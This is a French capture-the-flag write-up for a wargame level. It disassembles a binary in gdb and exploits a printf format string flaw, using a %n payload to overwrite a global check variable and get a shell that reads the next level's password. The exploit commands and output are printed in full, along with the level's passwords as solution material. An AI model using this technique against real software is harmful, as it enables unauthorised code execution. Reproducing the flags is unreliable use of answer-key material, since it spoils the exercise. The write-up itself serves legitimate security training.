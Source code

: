 On se connecte sur le level3, ou se trouve un **binaire** <code>level3</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level3 -q
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
> disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```
Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf**

On commence par chercher l'**Offset**:
<pre><code> > python -c 'print "BBBB" + "|%08x" * 4' | ./level3
BBBB|00000200|b7fd1ac0|b7ff37d0|42424242
</code></pre>
> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:
<pre><code>> objdump -t level3 | grep m
level3:     file format elf32-i386
...
0804988c g     O .bss   00000004              m
...</code></pre>

```gdb
> python -c 'print "\x8c\x98\x04\x08" + "%4$08n"' > /tmp/payload
> gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) > b *0x080484df
Breakpoint 1 at 0x80484df
(gdb) > run < /tmp/payload
Starting program: /home/user/level3/level3 < /tmp/payload


Breakpoint 1, 0x080484df in v ()
(gdb) > x/x 0x804988c
0x804988c <m>:  0x00000004
```
On sait que l'on cherche 64 (0x40), donc il nous manque 60

<pre><code>> (python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$08n"'; cat) | ./level3
                                                         512
Wait what?!
> cd ../level4 && cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
</code></pre>


For download :
<pre><code>scp -P4242 level3@IP:level3 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
